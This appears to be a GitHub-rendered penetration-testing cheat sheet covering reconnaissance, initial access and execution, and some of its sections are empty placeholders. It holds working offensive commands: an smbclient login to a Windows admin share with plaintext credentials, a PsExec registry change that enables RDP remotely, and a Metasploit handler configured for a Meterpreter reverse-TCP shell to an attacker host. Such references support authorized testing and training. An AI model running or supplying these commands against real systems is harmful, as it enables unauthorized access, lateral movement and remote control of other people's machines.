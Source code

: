 # Reconnaissance

### dnsrecon
```bash
dnsrecon -d "$TARGET" -n "$DNS_SERVER"
```

### Massscan
```bash
# text goes here
```

### Nmap
```bash
# text goes here
```

# Initial Access

## SMB
### smbclient
```bash
smbclient //192.168.1.69/c$ -U john Password123!
# NT_STATUS_ACCESS_DENIED may indicate the credentials are wrong or network access is restricted
```

## RDP
### Enable RDP Remotely
```bash
# enter the command below on one line 
PsExec.exe /accepteula \\192.168.1.69 \
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" \
  /v fDenyTSConnections /t REG_DWORD /d 0 /f
```


# Execution

## Metasploit, MSFVenom, and Meterpreter
**Metasploit**
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

